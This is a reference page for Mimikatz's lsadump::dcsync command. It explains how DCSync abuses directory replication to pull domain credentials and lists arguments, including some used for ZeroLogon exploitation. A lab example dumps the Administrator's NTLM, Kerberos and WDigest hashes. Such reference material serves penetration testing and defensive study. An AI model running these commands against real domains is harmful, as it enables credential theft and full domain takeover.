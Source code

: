 # dcsync

`lsadump::dcsync` can be used to do a [DCSync](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync) and retrieve domain secrets. This command uses the Directory Replication Service Remote protocol ([MS-DRSR](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47?redirectedfrom=MSDN)) to request from a domain controller to synchronize a specified entry. It's the same protocol that domain controllers are using between them. It has the following command line arguments:

* `/all` : It will DCSync the entire active directory database
* `/user`: perform syncing only for the specified user
* `/export` : Save the output
* `/csv` : export to csv
* `/dc` or `/kdc`: Specify the Domain Controller to connect to and gather data
* `/guid` : The GUID of the object to sync credentials. It can be obtained with [net::trust](../net/trust.md)

The following command line arguments of `lsadump::dcsync` can be used for [ZeroLogon](https://www.thehacker.recipes/ad/movement/netlogon/zerologon) exploitation:

* `/authuser`: the domain controller's machine account
* `/authdomain`: the NetBIOS of the domain
* `/authpassword`: it has to be set to blank `""`
* `/authntlm`: user NTLM authentication

```
mimikatz # lsadump::dcsync /domain:hacklab.local /user:hacklab\Administrator
[DC] 'hacklab.local' will be the domain
[DC] 'DC.hacklab.local' will be the DC server
[DC] 'hacklab\Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000200 ( NORMAL_ACCOUNT )
Account expiration   : 01/01/1601 01:00:00
Password last change : 24/09/2021 16:24:41
Object Security ID   : S-1-5-21-2725560159-1428537199-2260736313-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: b09a14d2d325026f8986d4a874fbcbc7
    ntlm- 0: b09a14d2d325026f8986d4a874fbcbc7
    ntlm- 1: a06b19f88e0432e937a67fb6848e56bd
    lm  - 0: b28dd7b27e8cf0d2293087d70fc35769

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : a367950918bb2ccabb50ab88e8ffb09f

* Primary:Kerberos-Newer-Keys *
    Default Salt : HACKLAB.LOCALAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 0c1230dca827b75e872b5e5601eb6b76016412b4dd96b4aeb99a59a43490182c
      aes128_hmac       (4096) : e52cb5008be21bfe2e8429c74659d925
      des_cbc_md5       (4096) : 4f45e3a7cd34bc83

* Primary:Kerberos *
    Default Salt : HACKLAB.LOCALAdministrator
    Credentials
      des_cbc_md5       : 4f45e3a7cd34bc83

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  6ca5712f90260e1eb3abd67598e6750a
    02  8dffe5b3aefb6e5ae29e628d2ee96a45
    03  17be46dc199faf9b0bbda5bad36e3d6e
    04  6ca5712f90260e1eb3abd67598e6750a
    05  6fc635e3af189352029ce83a2219fa3c
    06  510782016677b838b585d4f04d23f98a
    07  b358628b75f049cf9e78f5e49bc560a2
    08  c40c4076a86fbf852da4cb4bfa721d74
    09  bf6734b4833bd61834c48fa6533acb9a
    10  3c148f6edbc99e9a489d72fb809ee66b
    11  0a100f8d2212e336adf8c429722d3a8c
    12  c40c4076a86fbf852da4cb4bfa721d74
    13  e649568c12076eba2026544142dc74fd
    14  3ef797336ba53aaf034774a4fe8b06dc
    15  797740715ee8fa059260c583fef36d5e
    16  84aa405aaf242960160143fa357a3c7f
    17  bb9ea6391483fa61fba5dced60ea039c
    18  3871d21dfa14ede3c56b04ffc5970b1c
    19  8e7946ea6e13210cb3ded49e2ff501fa
    20  7480b0f8878e31ee2dcf3507fc2dbf54
    21  2f7b7c9a2ac171f4417a38a52ef89989
    22  3483e4a4ca60cd4b3d0bc66dc900f175
    23  e1fa4a98cdab50c99934120090885d90
    24  e16cb6277ed064c290498037f5dfe5b3
    25  d6b096727b0d7a39cae06afd874247a9
    26  f7a5f95bb7f0d0be1d8fe247b875cb29
    27  e781f3584bf099e0a485657e832c6e74
    28  acb55c0b8828a6660b166fc649708c1c
    29  8fd36767c074ca738a81d5c7298295c3
```

{% hint style="warning" %}
When run `lsadump::dcsync` directly on the domain controller, it is not needed to specify the domain in the`/user`.

`mimikatz # lsadump::dcsync /user:Administrator /domain:hacklab.local`
{% endhint %}
